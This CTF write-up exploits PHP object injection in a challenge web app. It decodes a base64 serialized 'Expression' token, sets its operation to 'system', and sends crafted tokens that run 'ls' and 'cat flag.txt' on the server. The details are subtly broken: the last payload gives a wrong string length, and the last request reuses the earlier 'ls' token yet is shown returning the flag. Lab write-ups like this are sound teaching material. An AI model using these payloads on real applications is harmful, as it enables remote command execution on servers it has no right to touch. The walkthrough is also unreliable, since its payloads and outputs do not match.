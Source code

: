 PHP Object Injection - CTF Writeup  

Challenge Overview  
This challenge involves PHP Object Injection (POI), where user-controlled serialized objects can be manipulated to execute arbitrary PHP functions. The goal is to exploit the vulnerability to execute system commands and retrieve the flag.txt file.  

Step 1: Testing the Application  
1. Visit the provided web page and input two numbers in the form.  
2. Submit the form, and you will receive a result along with a generated token.  

Example:  
Input: 2, 3  
Output: 2 + 3 = 5  
Generated Token: TzoxMDoiRXhwcmVzc2lvbiI6Mzp7czoxMjoiRXhwcmVzc2lvbm9wIjtzOjM6InN1bSI7czoxNjoiRXhwcmVzc2lvbnBhcmFtcyI7YToyOntpOjA7aToyO2k6MTtpOjM7fXM6OToic3RyaW5naWZ5IjtzOjU6IjIgKyAzIjt9  

3. It also provides a an option to use the token. Upon clicking the "Click Here", it sends a request:  
GET /index.php?token=TzoxMDoiRXhwcmVzc2lvbiI6Mzp7czoxMjoiRXhwcmVzc2lvbm9wIjtzOjM6InN1bSI7czoxNjoiRXhwcmVzc2lvbnBhcmFtcyI7YToyOntpOjA7aToyO2k6MTtpOjM7fXM6OToic3RyaW5naWZ5IjtzOjU6IjIgKyAzIjt9  

4. The response shows invalid operation.  

Step 2: Analyzing the Token  
1. Decoding the Base64 token:  
echo "TzoxMDoiRXhwcmVzc2lvbiI6Mzp7czoxMjoiRXhwcmVzc2lvbm9wIjtzOjM6InN1bSI7czoxNjoiRXhwcmVzc2lvbnBhcmFtcyI7YToyOntpOjA7aToyO2k6MTtpOjM7fXM6OToic3RyaW5naWZ5IjtzOjU6IjIgKyAzIjt9" | base64 -d  

Output:  
O:10:"Expression":3:{s:12:"Expressionop";s:3:"sum";s:16:"Expressionparams";a:2:{i:0;i:2;i:1;i:3;}s:9:"stringify";s:5:"2 + 3";}  

2. We see that it is a serialized PHP object of the Expression class.  

Step 3: Modifying the Payload  
Instead of performing a sum, we modify the Expressionop to "system" and set Expressionparams to ["ls"] to execute the ls command.  

Modified Payload:  
O:10:"Expression":3:{s:12:"Expressionop";s:6:"system";s:16:"Expressionparams";s:2:"ls";s:9:"stringify";s:5:"2 + 3";}  

1. Encoding it back to Base64:  
echo -n 'O:10:"Expression":3:{s:12:"Expressionop";s:6:"system";s:16:"Expressionparams";s:2:"ls";s:9:"stringify";s:5:"2 + 3";}' | base64  

Output:  
TzoxMDoiRXhwcmVzc2lvbiI6Mzp7czoxMjoiRXhwcmVzc2lvbm9wIjtzOjY6InN5c3RlbSI7czoxNjoiRXhwcmVzc2lvbnBhcmFtcyI7czoyOiJscyI7czo5OiJzdHJpbmdpZnkiO3M6NToiMiArIDMiO30=  

Step 4: Sending the Exploit  
Now, send the request with the modified token:  
GET /index.php?token=TzoxMDoiRXhwcmVzc2lvbiI6Mzp7czoxMjoiRXhwcmVzc2lvbm9wIjtzOjY6InN5c3RlbSI7czoxNjoiRXhwcmVzc2lvbnBhcmFtcyI7czoyOiJscyI7czo5OiJzdHJpbmdpZnkiO3M6NToiMiArIDMiO30=  

Response:  
index.php 
flag.txt  

Step 5: Retrieving the Flag  
Now, modify the payload to execute:  
O:10:"Expression":3:{s:12:"Expressionop";s:6:"system";s:16:"Expressionparams";s:7:"cat flag.txt";s:9:"stringify";s:5:"2 + 3";}  

Encode it:  
echo -n 'O:10:"Expression":3:{s:12:"Expressionop";s:6:"system";s:16:"Expressionparams";s:7:"cat flag.txt";s:9:"stringify";s:5:"2 + 3";}' | base64  

Send the request with the new token:  
GET /index.php?token=TzoxMDoiRXhwcmVzc2lvbiI6Mzp7czoxMjoiRXhwcmVzc2lvbm9wIjtzOjY6InN5c3RlbSI7czoxNjoiRXhwcmVzc2lvbnBhcmFtcyI7czoyOiJscyI7czo5OiJzdHJpbmdpZnkiO3M6NToiMiArIDMiO30=  

Response:  
FLAG{flag}  


